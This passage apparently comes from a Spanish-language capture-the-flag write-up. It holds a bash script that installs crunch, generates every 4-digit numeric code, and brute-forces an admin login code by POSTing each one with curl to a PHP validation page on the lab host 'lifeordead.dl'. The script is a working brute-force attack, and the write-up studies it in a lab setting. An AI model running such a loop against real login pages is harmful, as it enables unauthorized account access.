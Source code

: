 ```bash
# si crunch no esta instalado se procede con su instalacion y posteriormente se procede a crear la wordlist
# si la wordlist existe, se salta todo y procede con el ataque
if [[ ! -f $numworlist ]]; then

    echo "La wordlist no existe, comprobando si crunch esta instalado en el sistema!"
    dpkg --list |grep crunch >/dev/null 2>&1
    if [[ $? == 1 ]]; then
        echo "crunch no instalado, procediendo a su instalacion"
        sudo apt install crunch >/dev/null 2>&1
        if [[ $? == 0 ]]; then
             echo "instalacion exitosa, procediendo a crear la wordlist"
             crunch 4 4 0123456789 2>&1 |grep -v Crunch |grep -v MB |grep -v GB |grep -v TB |grep -v PB > numwordlist
             echo "wordlist creada, procediendo con el ataque"
        else
             echo "No se pudo instalar crunch, ejecute como root"
        fi
    else
         echo "crunch existe en el sistema! procediendo a crear la wordlist"
         crunch 4 4 0123456789 2>&1 |grep -v Crunch |grep -v MB |grep -v GB |grep -v TB |grep -v PB > numwordlist
         echo "wordlist creada, procediendo con el ataque"
    fi

fi


echo ""
echo "Iniciando Ataque ;)"

sleep 2

# ataque para localizar el codigo de 4 digitos
while read -r num; do

      curl -i -X POST http://lifeordead.dl/pageadmincodeloginvalidation.php -F code=$num 2>&1 |grep "failed" > /dev/null 2>&1

      if [[ $? == 1 ]]; then
           break
      fi
done < "$numworlist"
printf "$CNC"
printf "${BLD}${CRE}"
# se imprime el codigo de 4 digitos valido
echo "Code = $num"
printf "$CNC"
```

lo guardo como `lifeordead.sh` y le asigno permisos de ejecucion `chmod +x lifeordead.sh` y procedo a ejecutarlo

